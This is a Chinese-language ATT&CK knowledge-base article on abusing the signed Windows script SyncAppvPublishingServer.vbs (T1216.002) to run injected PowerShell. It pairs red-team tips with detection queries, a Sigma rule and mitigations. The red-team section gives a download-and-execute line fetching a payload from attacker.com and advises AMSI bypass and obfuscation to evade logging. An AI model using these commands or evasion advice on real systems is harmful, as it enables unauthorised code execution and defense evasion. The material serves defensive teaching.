


# SyncAppvPublishingServer (T1216.002)

## 一句话通俗理解

> **滥用微软签名的 `SyncAppvPublishingServer.vbs` 脚本，通过命令行注入让它在执行过程中拉起 PowerShell，从而以微软签名脚本的身份执行任意命令**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 利用 Windows 内置的 `SyncAppvPublishingServer.vbs` 脚本作为代理，通过命令行参数注入 PowerShell 命令实现任意代码执行 |
| 为什么危险？ | 恶意 PowerShell 命令通过微软签名的 `wscript.exe` + `SyncAppvPublishingServer.vbs` 执行链触发，绕过基于签名验证的应用控制策略 |
| 谁需要关心？ | Windows 系统管理员、SOC 分析师、应用控制策略制定者、App-V 用户 |
| 你的第一步防御 | 通过 WDAC 阻断 `SyncAppvPublishingServer.vbs` 的执行，或监控其命令行参数是否包含 PowerShell 命令 |
| 如果只做一件事 | 启用 Sysmon Event ID 1，监控 `wscript.exe`/`cscript.exe` 执行 `SyncAppvPublishingServer.vbs` 时是否拉起 `powershell.exe` 子进程 |

## 难度等级

⭐⭐ 中级 - 需要一定的技术知识和实践

## 前置知识检查

**读这个文件需要什么？**

- [ ] Windows 脚本宿主（WSH）与 `cscript.exe`/`wscript.exe` 的工作机制
- [ ] VBScript 基础语法与 `.vbs` 文件执行流程
- [ ] Microsoft Application Virtualization（App-V）基础知识
- [ ] PowerShell 命令行参数与脚本块执行机制
- [ ] Windows 命令行注入与参数拼接原理
- [ ] 应用控制策略（AppLocker/WDAC）的签名验证机制

## 技术描述

**SyncAppvPublishingServer**（T1216.002）是 **系统脚本代理执行**（T1216）的一个具体子技术，属于 **隐蔽** 战术。攻击者滥用 Windows 内置的 `SyncAppvPublishingServer.vbs` 脚本作为代理，通过命令行注入让脚本在执行过程中调用 PowerShell，从而以微软签名脚本的身份执行任意命令。

### 脚本背景

`SyncAppvPublishingServer.vbs` 是 Windows 10 默认携带的 Visual Basic Script 脚本，原本用于 Microsoft Application Virtualization（App-V）的发布同步操作。该脚本由微软签名，通常位于 `C:\Windows\System32\SyncAppvPublishingServer.vbs`，通过 Windows 命令解释器（`cmd.exe`）调用 `wscript.exe` 或 `cscript.exe` 执行。

**标准合法用法：**

```cmd
wscript C:\Windows\System32\SyncAppvPublishingServer.vbs
```

该脚本无需参数即可执行，会同步当前用户的 App-V 发布数据。它也可以接受参数控制同步行为，例如指定同步模式或发布服务器。

### 滥用原理

**关键弱点在于脚本内部会调用 PowerShell**——`SyncAppvPublishingServer.vbs` 在执行过程中会通过 `WScript.Shell` 对象调用 `powershell.exe` 执行 App-V 相关的 PowerShell cmdlet。攻击者可以通过精心构造的命令行参数，注入额外的 PowerShell 命令，让脚本在调用 `powershell.exe` 时顺带执行攻击者的恶意命令。

**典型滥用命令：**

```cmd
wscript C:\Windows\System32\SyncAppvPublishingServer.vbs "nul;New-Item -Path 'C:\Users\Public\T1216_002_test.txt' -ItemType File"
```

在这个命令中：
- `nul` 让脚本认为参数处理已完成
- `;` 是 PowerShell 的命令分隔符
- `New-Item -Path 'C:\Users\Public\T1216_002_test.txt' -ItemType File` 是攻击者注入的 PowerShell 命令，在 `C:\Users\Public\` 创建一个测试文件

当 `SyncAppvPublishingServer.vbs` 内部调用 `powershell.exe` 时，它会将攻击者注入的命令一并传递给 PowerShell 执行。

**执行链：**
```
cmd.exe → wscript.exe (微软签名) → SyncAppvPublishingServer.vbs (微软签名) → WScript.Shell.Run("powershell.exe ...") → powershell.exe 执行注入的命令
```

整个执行链中，所有宿主组件（`wscript.exe`、`SyncAppvPublishingServer.vbs`）都是微软签名的合法组件。虽然最终执行恶意命令的是 `powershell.exe`（也是微软签名），但攻击者通过 `SyncAppvPublishingServer.vbs` 的中间层调用，可以绕过部分仅监控 `powershell.exe` 直接调用的应用控制策略。

### 为什么有效？

这种技术之所以有效，是因为：

1. **签名绕过**：`wscript.exe` 与 `SyncAppvPublishingServer.vbs` 均由微软签名，AppLocker/WDAC 的默认规则放行
2. **间接调用**：PowerShell 命令通过 `SyncAppvPublishingServer.vbs` 间接调用，可能绕过仅监控 `powershell.exe` 直接执行的策略
3. **合法外观**：`SyncAppvPublishingServer.vbs` 是合法的 App-V 管理脚本，运维人员可能误认为是正常活动
4. **参数注入**：攻击者只需构造简单的命令行参数，无需修改脚本文件本身

**过渡段：** 与 PubPrn（T1216.001）利用 `script:` moniker 加载远程 Scriptlet 不同，SyncAppvPublishingServer 滥用命令行注入让脚本调用本地的 PowerShell——两者都利用微软签名脚本作为"代理"，但触发恶意代码执行的机制不同。

## 真实攻击流程



**步骤详解：**

1. **识别目标系统** - 攻击者确认目标系统上 `SyncAppvPublishingServer.vbs` 存在
   - 通俗描述：像小偷踩点，先看看目标有没有可用的"带章员工"
   - 技术细节：通过 `Test-Path C:\Windows\System32\SyncAppvPublishingServer.vbs` 确认脚本存在
   - 常用工具：PowerShell 侦察命令、Cobalt Strike `execute-assembly`

2. **构造注入命令** - 攻击者构造包含 PowerShell 命令的命令行参数
   - 通俗描述：写一份"假任务单"，里面藏着"额外指令"
   - 技术细节：参数格式为 `"nul;<PowerShell 命令>"`，利用 PowerShell 的命令分隔符 `;` 注入恶意命令
   - 常用工具：文本编辑器、Cobalt Strike

3. **通过 wscript.exe 执行 SyncAppvPublishingServer.vbs** - 攻击者通过 `wscript.exe` 启动脚本
   - 通俗描述：让带章员工"打卡上班"，开始执行"假任务"
   - 技术细节：`wscript.exe` 是微软签名的 GUI 脚本宿主，加载并执行 `SyncAppvPublishingServer.vbs`
   - 常用工具：cmd.exe、wscript.exe、计划任务（schtasks）、WMI

4. **脚本内部调用 powershell.exe** - `SyncAppvPublishingServer.vbs` 通过 `WScript.Shell` 调用 `powershell.exe`
   - 通俗描述：员工"接到任务"，按照"假任务单"的指令去执行
   - 技术细节：脚本内部代码包含 `WScript.Shell.Run("powershell.exe ...")` 调用，攻击者注入的命令被一并传递给 PowerShell
   - 常用工具：无（脚本内部机制）

5. **powershell.exe 执行恶意 PowerShell 命令** - PowerShell 解析并执行攻击者注入的命令
   - 通俗描述：员工"按照额外指令行动"
   - 技术细节：PowerShell 命令分隔符 `;` 让 PowerShell 依次执行多个命令，包括攻击者注入的恶意命令
   - 常用工具：PowerShell 内置 cmdlet、.NET API

6. **恶意代码在 powershell.exe 上下文执行** - 恶意代码运行在 `powershell.exe` 进程上下文中
   - 通俗描述：恶意代码披着"员工制服"在办公楼里自由活动
   - 技术细节：恶意代码运行在 `powershell.exe` 进程上下文中，可调用 .NET API、下载下一阶段载荷、横向移动
   - 常用工具：Cobalt Strike Beacon、PowerShell Empire、自定义后门

### 典型场景

攻击者在 **隐蔽** 阶段使用 SyncAppvPublishingServer 技术，以下是典型的攻击步骤：

## 攻击流程

```
确认 SyncAppvPublishingServer.vbs 可用 --> 构造 PowerShell 注入命令 --> wscript.exe 执行 SyncAppvPublishingServer.vbs --> 脚本内部调用 powershell.exe --> 恶意 PowerShell 命令执行
```



**步骤详解：**

1. **确认 SyncAppvPublishingServer.vbs 可用**
   - 通俗描述：先确认目标系统上有没有这个"带章员工"
   - 技术细节：`Test-Path C:\Windows\System32\SyncAppvPublishingServer.vbs`
   - 常用工具：PowerShell、cmd.exe

2. **构造 PowerShell 注入命令**
   - 通俗描述：写一份"假任务单"，藏着"额外指令"
   - 技术细节：`wscript SyncAppvPublishingServer.vbs "nul;New-Item -Path 'C:\Users\Public\test.txt' -ItemType File"`
   - 常用工具：文本编辑器、Cobalt Strike

3. **wscript.exe 执行 SyncAppvPublishingServer.vbs**
   - 通俗描述：让员工"上班打卡"
   - 技术细节：通过 `cmd.exe`、计划任务、WMI 或宏代码调用 `wscript.exe`
   - 常用工具：cmd.exe、schtasks、WMI、Office 宏

4. **脚本内部调用 powershell.exe**
   - 通俗描述：员工按"假任务单"行动
   - 技术细节：`SyncAppvPublishingServer.vbs` 内部通过 `WScript.Shell` 调用 `powershell.exe`，攻击者注入的命令一并传递
   - 常用工具：无（脚本内部机制）

5. **恶意 PowerShell 命令执行**
   - 通俗描述：员工"执行额外指令"
   - 技术细节：PowerShell 解析并执行注入的命令，可调用 .NET API 下载下一阶段载荷
   - 常用工具：Cobalt Strike、PowerShell Empire

## 真实案例

### 案例1：红队模拟 - SyncAppvPublishingServer 用于绕过应用控制策略

- **时间**：2018-2020年
- **目标**：授权红队评估目标（多个行业）
- **攻击组织**：商业红队（模拟 APT 行为）
- **手法**：在多次红队评估中，红队成员使用 `SyncAppvPublishingServer.vbs` 绕过目标环境的应用控制策略。攻击者首先通过钓鱼获取初始访问权限，然后在受感染主机上调用 `SyncAppvPublishingServer.vbs`，在参数中注入下载并执行 Cobalt Strike Beacon 的 PowerShell 命令。由于 `wscript.exe` 与 `SyncAppvPublishingServer.vbs` 均为微软签名，且 PowerShell 命令通过脚本间接调用，绕过了仅监控 `powershell.exe` 直接执行的应用控制策略。这一技术已成为红队工具箱中的标准 LOLBins 滥用手法，被收录在 LOLBAS 项目中。
- **影响**：红队成功绕过应用控制策略，蓝队据此改进了应用控制与监控策略
- **参考链接**：[LOLBAS - SyncAppvPublishingServer](https://lolbas-project.github.io/lolbas/Scripts/SyncAppvPublishingServer/)、[Microsoft - WDAC 推荐阻断规则](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules)

### 案例2：通用 LOLBins 攻击模式 - SyncAppvPublishingServer 作为 PowerShell 代理

- **时间**：2019年至今
- **目标**：使用应用控制策略的 Windows 环境
- **攻击组织**：多个未具名的攻击组织与红队
- **手法**：在多个安全研究报告中，`SyncAppvPublishingServer.vbs` 被列为典型的"PowerShell 代理执行"LOLBins。攻击者在受感染主机上通过 `wscript.exe` 调用 `SyncAppvPublishingServer.vbs`，在参数中注入 PowerShell 命令，实现以下目的：1) 下载并执行下一阶段载荷（如 Cobalt Strike Beacon、Meterpreter）；2) 执行内网横向移动命令（如 BloodHound 数据收集、Kerberoasting）；3) 建立持久化机制（如创建计划任务、修改注册表 Run 键）。由于这种技术不依赖特定的攻击组织，而是作为通用的 LOLBins 滥用模式存在，被广泛用于各种攻击场景。
- **影响**：成为 LOLBins 滥用的标准技术之一，推动了应用控制策略的演进
- **参考链接**：[LOLBAS 项目](https://lolbas-project.github.io/)、[Microsoft - Application Control](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/windows-defender-application-control-design-guide)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **目标系统判断**：在实施前确认目标系统上 `SyncAppvPublishingServer.vbs` 存在（仅 Windows 10+ 默认携带）
2. **命令构造**：参数格式为 `"nul;<PowerShell 命令>"`，注意 PowerShell 命令需要使用单引号包裹路径，避免双引号冲突
3. **载荷下载**：注入的 PowerShell 命令可用于下载并执行下一阶段载荷，例如 `IEX (New-Object Net.WebClient).DownloadString('https://attacker.com/payload.ps1')`
4. **OPSEC 考量**：`wscript.exe` 默认以 GUI 模式运行，不会显示控制台窗口；执行完成后清理 `powershell.exe` 进程，避免长期驻留引起怀疑

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| wscript.exe | Windows GUI 脚本宿主，执行 `SyncAppvPublishingServer.vbs` | Windows | 系统内置 |
| cscript.exe | Windows 控制台脚本宿主，执行 `SyncAppvPublishingServer.vbs` | Windows | 系统内置 |
| Cobalt Strike | Beacon 加载与 C2 通信 | Windows | [Cobalt Strike](https://www.cobaltstrike.com/) |
| PowerShell Empire | PowerShell 后渗透框架 | Windows | [PowerShell Empire](https://github.com/EmpireProject/Empire) |

### 注意事项

- 在授权的测试环境中使用这些技术
- 注意操作安全（OPSEC），避免被检测系统发现
- 启用 AMSI 的环境可能扫描 PowerShell 命令，建议使用 AMSI bypass
- 启用 PowerShell 脚本块日志的环境会记录执行的命令，建议使用混淆技术

## 蓝队视角

### 检测要点

1. **命令行参数监控**：监控 `wscript.exe`/`cscript.exe` 执行 `SyncAppvPublishingServer.vbs` 时的命令行参数，重点检测 `nul;`、`powershell`、`IEX`、`DownloadString` 等可疑关键字
2. **子进程异常**：监控 `wscript.exe` 拉起 `powershell.exe` 子进程的行为，特别是命令行包含非 App-V 相关命令的情况
3. **PowerShell 脚本块日志**：启用 PowerShell 脚本块日志（Event ID 4104），记录执行的 PowerShell 命令
4. **AMSI 集成**：确保 AMSI 集成启用，扫描 PowerShell 脚本块

### 监控建议

- 部署 Sysmon 并配置 Event ID 1（进程创建）的日志采集
- 配置 SIEM 规则关联分析：`wscript.exe` + `SyncAppvPublishingServer.vbs` + `powershell.exe` 三元组告警
- 启用 PowerShell 脚本块日志与 AMSI 集成
- 建立 `SyncAppvPublishingServer.vbs` 的合法使用基线（通常无参数），识别带参数的可疑执行

## 避坑指南

**防御者常见误区：**

1. **误区：监控 `powershell.exe` 直接执行即可** —— 实际上攻击者通过 `SyncAppvPublishingServer.vbs` 间接调用 PowerShell，可能绕过仅监控 `powershell.exe` 直接执行的应用控制策略
2. **误区：AppLocker 默认规则足够安全** —— AppLocker 默认放行微软签名，无法识别 `SyncAppvPublishingServer.vbs` 的滥用，需要显式阻断规则
3. **误区：只监控 `SyncAppvPublishingServer.vbs` 即可** —— 攻击者可参考该脚本的源码思路，寻找其他类似弱点的签名脚本，应建立通用的签名脚本执行监控

## 检测建议

### 检测思路

检测 SyncAppvPublishingServer 滥用的关键是识别 `wscript.exe`/`cscript.exe` 执行 `SyncAppvPublishingServer.vbs` 时的异常命令行参数，以及拉起 `powershell.exe` 子进程的行为。以下是三个层面的检测方法：

### 网络层检测

**方法**：监控 `powershell.exe` 产生的出站网络连接，特别是与 `SyncAppvPublishingServer.vbs` 执行相关的 PowerShell 进程

```powershell
# 检测 wscript.exe 拉起的 powershell.exe 产生的网络连接（通过 Sysmon Event ID 3）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=3} |
    Where-Object { $_.Message -match 'powershell\.exe' } |
    Select-Object TimeCreated, Message -First 50
```

### 主机层检测

**Windows事件ID：**
- Sysmon Event ID 1：进程创建（**核心**——监控 `wscript.exe` 的命令行参数与子进程）
- Event ID 4104：PowerShell 脚本块日志（记录执行的 PowerShell 命令）
- Event ID 4688：进程创建（监控可疑脚本执行链）

**具体命令：**
```powershell
# 检测 SyncAppvPublishingServer.vbs 的可疑执行（包含 PowerShell 命令注入）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'SyncAppvPublishingServer' -and ($_.Message -match 'nul;' -or $_.Message -match 'powershell' -or $_.Message -match 'IEX') } |
    Select-Object TimeCreated, Message -First 50

# 检测 wscript.exe 拉起 powershell.exe 子进程（强信号）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'ParentImage.*wscript\.exe' -and $_.Message -match 'powershell\.exe' } |
    Select-Object TimeCreated, Message -First 50
```

### 应用层检测

**Sigma规则示例：**

```yaml
title: 检测 SyncAppvPublishingServer.vbs 通过 PowerShell 注入滥用
id: 8b9c0d1e-2f3a-4b5c-6d7e-8f9a0b1c2d3e
status: experimental
description: 检测 wscript.exe/cscript.exe 执行 SyncAppvPublishingServer.vbs 时通过命令行注入 PowerShell 命令的行为
references:
    - https://attack.mitre.org/techniques/T1216/002/
    - https://lolbas-project.github.io/lolbas/Scripts/SyncAppvPublishingServer/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    category: process_creation
detection:
    selection_syncappv:
        Image|endswith:
            - '\wscript.exe'
            - '\cscript.exe'
        CommandLine|contains:
            - 'SyncAppvPublishingServer'
            - 'SyncAppvPublishingServer.vbs'
    selection_powershell_injection:
        CommandLine|contains:
            - 'nul;'
            - 'powershell'
            - 'IEX'
            - 'DownloadString'
            - 'Invoke-'
    condition: selection_syncappv and selection_powershell_injection
falsepositives:
    - 合法的 App-V 发布同步操作（通常无参数或仅 App-V 相关参数）
    - 系统管理员手动执行 App-V 同步
level: high
tags:
    - attack.t1216
    - attack.t1216.002
    - attack.defense_evasion
    - attack.execution
```

## 缓解措施

### 优先级1：关键措施

**通过 WDAC 阻断 SyncAppvPublishingServer.vbs 的执行**

```powershell
# 在 WDAC 策略中添加针对 SyncAppvPublishingServer.vbs 的显式阻断规则
# 参考 https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
# 如果环境不使用 App-V，可直接阻断该脚本的执行
```

### 优先级2：重要措施

**启用 AMSI 集成与 PowerShell 脚本块日志**

```powershell
# 启用 PowerShell 脚本块日志
Set-ItemProperty -Path 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging' -Name EnableScriptBlockLogging -Value 1

# 启用 AMSI（Windows 10+ 默认启用）
# 确保杀毒软件注册为 AMSI provider
```

### 优先级3：建议措施

**对未使用 App-V 的环境移除或禁用脚本**

```powershell
# 如果环境不使用 App-V，可考虑通过文件权限限制 SyncAppvPublishingServer.vbs 的执行
# 例如通过 NTFS 权限拒绝普通用户读取与执行该脚本
icacls C:\Windows\System32\SyncAppvPublishingServer.vbs /deny "Users:(RX)"
```

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解 SyncAppvPublishingServer PowerShell 注入原理（初级）

**目标**：理解 SyncAppvPublishingServer 滥用 PowerShell 命令注入的工作原理

**步骤**：
1. 在 Windows 10 虚拟机中查看 `SyncAppvPublishingServer.vbs` 源码：
   ```cmd
   type C:\Windows\System32\SyncAppvPublishingServer.vbs
   ```
2. 找到 `WScript.Shell` 调用 `powershell.exe` 的代码段，理解参数如何被传递
3. 执行测试命令（创建一个测试文件）：
   ```cmd
   wscript C:\Windows\System32\SyncAppvPublishingServer.vbs "nul;New-Item -Path 'C:\Users\Public\T1216_002_test.txt' -ItemType File"
   ```
4. 验证测试文件是否创建：
   ```powershell
   Test-Path C:\Users\Public\T1216_002_test.txt
   ```
5. 检查 Sysmon Event ID 1 日志，确认命令行参数被记录
6. 清理测试文件：
   ```powershell
   Remove-Item C:\Users\Public\T1216_002_test.txt
   ```

**学习要点**：理解命令行注入的工作原理，以及 VBScript 如何通过 `WScript.Shell` 调用 PowerShell

### 实验2：检测 SyncAppvPublishingServer 滥用（中级）

**目标**：掌握检测 SyncAppvPublishingServer 滥用的方法

**步骤**：
1. 部署 Sysmon 并配置 Event ID 1 日志采集
2. 启用 PowerShell 脚本块日志（Event ID 4104）
3. 重复实验1的攻击步骤
4. 使用 Sigma 规则检测攻击行为
5. 分析 Sysmon 日志，识别以下信号：
   - `wscript.exe` 命令行包含 `SyncAppvPublishingServer` 与 `nul;`
   - `wscript.exe` 拉起 `powershell.exe` 子进程
   - PowerShell 脚本块日志记录 `New-Item` 命令

**学习要点**：掌握多源日志关联分析方法

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE 公司维护的攻击技术知识库，像一本"黑客手法百科全书" |
| **SyncAppvPublishingServer** | T1216.002，ATT&CK 框架中定义的 SyncAppvPublishingServer.vbs 脚本滥用技术 |
| **系统脚本代理执行** | T1216，SyncAppvPublishingServer 所属的父技术类别 |
| **隐蔽** | 攻击链中的一个阶段，攻击者在这个阶段隐藏自己的活动 |
| **SyncAppvPublishingServer.vbs** | Windows 内置的 App-V 发布同步脚本，由微软签名 |
| **App-V** | Microsoft Application Virtualization，Windows 应用虚拟化技术 |
| **WScript.Shell** | VBScript 中用于调用系统命令的 COM 对象 |
| **wscript.exe** | Windows GUI 脚本宿主，执行 `.vbs` 等脚本文件 |
| **cscript.exe** | Windows 控制台脚本宿主，执行 `.vbs` 等脚本文件 |
| **AppLocker** | Windows 应用控制策略，可基于签名限制可执行文件 |
| **WDAC** | Windows Defender Application Control，比 AppLocker 更严格的应用控制 |
| **AMSI** | 反恶意软件扫描接口，Windows 10+ 内置的脚本扫描机制 |
| **LOLBins** | Living Off The Land Binaries，滥用合法系统工具的攻击手法 |
| **C2** | 命令与控制，攻击者用来远程控制被入侵系统的"遥控器" |
| **EDR** | 端点检测与响应，部署在电脑上的安全监控软件 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1216 - 系统脚本代理执行](../T1216-System-Script-Proxy-Execution.md)

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - SyncAppvPublishingServer (T1216.002)](https://attack.mitre.org/techniques/T1216/002/)
- [MITRE ATT&CK - 系统脚本代理执行 (T1216)](https://attack.mitre.org/techniques/T1216/)
- [Microsoft Learn - App-V 概述](https://docs.microsoft.com/en-us/windows/application-management/app-v/appv-overview)
- [Microsoft Learn - WDAC 推荐阻断规则](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules)

### 📰 安全报告（真实攻击）

- [LOLBAS - SyncAppvPublishingServer.vbs](https://lolbas-project.github.io/lolbas/Scripts/SyncAppvPublishingServer/) - LOLBAS 项目对该脚本的详细说明
- [Microsoft - Recommended Driver Block Rules](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules) - 微软推荐的阻断规则

### 🔧 工具与资源（动手试试）

- [LOLBAS 项目](https://lolbas-project.github.io/) - Living Off The Land Binaries 资源库
- [Atomic Red Team - T1216.002](https://atomicredteam.io/) - 可执行的检测测试用例
- [Ultimate AppLocker Bypass List](https://github.com/api0cradle/UltimateAppLockerByPassList) - AppLocker 绕过技术参考列表

### 📚 学习资料（深入了解）

- [MITRE ATT&CK 知识库](https://attack.mitre.org/resources/) - ATT&CK 官方资源中心
- [Microsoft - App-V 部署指南](https://docs.microsoft.com/en-us/windows/application-management/app-v/appv-deploying-the-appv-sequencer-and-client) - App-V 部署与运维指南
